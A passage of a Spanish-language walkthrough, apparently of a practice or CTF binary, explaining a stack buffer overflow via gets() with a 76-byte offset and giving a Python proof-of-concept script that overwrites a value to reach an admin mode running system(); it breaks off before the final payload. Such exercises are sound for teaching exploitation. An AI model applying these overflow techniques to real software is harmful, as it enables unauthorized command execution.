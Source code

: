 Las conclusiones que podemos sacar del código descompilado es que el **offset** es de **76** y además podemos corroborar que es vulnerable a un Buffer OverFlow pues está usando la función **gets()**. También hemos de tener el cuenta que si conseguimos establecer que el valor del password sea `0xdead` podremos acceder al modo administrador y ejecutar comandos gracias a la función **system()**.

### Controlando el RIP

En este punto empezaremos a crear nuestro script con el cual seremos capaces de interactuar con el binario, para controlar el **RIP** y así posteriormente poder ejecutar comandos.

```python
#!/usr/bin/env python3

import subprocess

offset = 76
junk = b"A" * 76
rip = b"B" * 8

payload = junk + rip


def main():

    proceso = subprocess.Popen(
        ['./command_exec'],
        stdin=subprocess.PIPE,
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE,
    )

    proceso.stdin.write(payload + b"\n")
    proceso.stdin.flush()

    print(proceso.stdout.readline().decode())

if __name__ == '__main__':
    main()
```

Al ejecutar el anterior script de python veremos como nos dice que la **key** es `42424242` por lo que ahora tenemos control total del **RIP** lo que nos permite tener control total sobre la password.

![](<../assets/images/posts/2024-12-21-stack/Pasted image 20241221152000.png>)

### Ejecutando comandos

Haremos una pequeña actualización sobre el script, es decir sustituimos el **RIP** por la contraseña que hemos de introducir para acceder al modo administrador:
